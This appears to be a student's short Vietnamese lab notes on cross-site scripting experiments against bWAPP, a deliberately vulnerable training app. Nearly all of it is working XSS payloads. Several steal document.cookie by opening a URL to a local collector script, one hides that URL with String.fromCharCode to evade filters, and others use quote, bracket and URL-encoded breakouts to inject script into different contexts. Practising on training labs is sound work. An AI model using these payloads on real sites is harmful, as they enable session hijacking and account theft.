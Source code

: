 Thực nghiệm 1: <script>window.open('http://localhost:8080/tn1/get.php?cookie=' + document. cookie)</script> => Lấy cookie => f12 vào login bwap https://bwapp.hakhub.net/portal.php
Thực nghiệm 2: <script>alert("XSS")</script> => <script>alert(String.fromCharCode(88, 83, 83))</script> => xong vào web https://charcode98.neocities.org/ để chuyển http://localhost:8080/tn1/get.php?cookie= thành dạng số
   		=> <script>window.open(String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 108, 111, 99, 97, 108, 104, 111, 115, 116, 58, 56, 48, 56, 48, 47, 116, 110, 49, 47, 103, 101, 116, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61) + document. cookie)</script>
Thực nghiệm 4: Giống y hệ Thực nghiệm 2
Thực nghiệm 5: làm các bước theo hd rồi cuối cùng chạy "}]}';window.open('http://localhost:8080/tn1/get.php?cookie=
Thực nghiệm 6: làm như hd => cuối cùng chạy '><script>window.open('http://localhost:8080/tn1/get.php?cookie=' + document. cookie)</script>
Thực nghiệm 7: làm như hd => cuối cùng chạy )");window.open(%27http%3A%2F%2Flocalhost%2Flab1%2Fget.php%3Fcookie%3D%27%20%2B%20document.%20cookie)<%2Fscript>
Thực nghiệm 8: 

<script>alert('DIEP')</script>

<script>alert(String.fromCharCode(88,83,83))<script>